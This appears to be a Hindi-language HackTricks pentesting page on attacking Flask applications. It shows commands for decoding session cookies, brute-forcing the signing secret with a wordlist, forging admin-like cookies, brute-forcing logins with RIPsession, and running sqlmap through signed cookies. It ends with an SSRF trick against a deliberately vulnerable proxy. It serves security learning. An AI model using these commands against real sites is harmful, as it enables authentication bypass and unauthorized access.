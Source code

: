 # Flask

{{#include ../../banners/hacktricks-training.md}}

**संभवतः यदि आप एक CTF खेल रहे हैं तो एक Flask एप्लिकेशन** [**SSTI**](../../pentesting-web/ssti-server-side-template-injection/)** से संबंधित होगा।**

## Cookies

डिफ़ॉल्ट कुकी सत्र का नाम **`session`** है।

### Decoder

ऑनलाइन Flask कुकीज़ डिकोडर: [https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

#### Manual

कुकी के पहले भाग को पहले बिंदु तक प्राप्त करें और इसे Base64 डिकोड करें>
```bash
echo "ImhlbGxvIg" | base64 -d
```
कुकी को एक पासवर्ड का उपयोग करके भी साइन किया गया है

### **Flask-Unsign**

कमांड लाइन टूल जो एक Flask एप्लिकेशन के सत्र कुकीज़ को प्राप्त करने, डिकोड करने, ब्रूट-फोर्स करने और बनाने के लिए गुप्त कुंजी का अनुमान लगाकर उपयोग किया जाता है।

{% embed url="https://pypi.org/project/flask-unsign/" %}
```bash
pip3 install flask-unsign
```
#### **कुकी डिकोड करें**
```bash
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
```
#### **ब्रूट फोर्स**
```bash
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie '<cookie>' --no-literal-eval
```
#### **साइनिंग**
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
```
#### पुराने संस्करणों का उपयोग करके साइन इन करना
```bash
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME' --legacy
```
### **RIPsession**

कमान्ड लाइन टूल जो flask-unsign के साथ बनाए गए कुकीज़ का उपयोग करके वेबसाइटों पर ब्रूट-फोर्स करता है।

{% embed url="https://github.com/Tagvi/ripsession" %}
```bash
ripsession -u 10.10.11.100 -c "{'logged_in': True, 'username': 'changeMe'}" -s password123 -f "user doesn't exist" -w wordlist.txt
```
### Flask सत्र कुकी में SQLi SQLmap के साथ

[**यह उदाहरण**](../../pentesting-web/sql-injection/sqlmap/#eval) sqlmap `eval` विकल्प का उपयोग करता है ताकि **flask के लिए sqlmap पेलोड को स्वचालित रूप से साइन किया जा सके** एक ज्ञात गुप्त के साथ।

## SSRF के लिए Flask प्रॉक्सी

[**इस लेख में**](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) यह समझाया गया है कि Flask एक अनुरोध को कैसे अनुमति देता है जो वर्ण "@" से शुरू होता है:
```http
GET @/ HTTP/1.1
Host: target.com
Connection: close
```
निम्नलिखित परिदृश्य में:
```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com/'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
return get(f'{SITE_NAME}{path}').content

app.run(host='0.0.0.0', port=8080)
```
कुछ ऐसा "@attacker.com" पेश करने की अनुमति दे सकता है जिससे **SSRF** हो सके। 

{{#include ../../banners/hacktricks-training.md}}
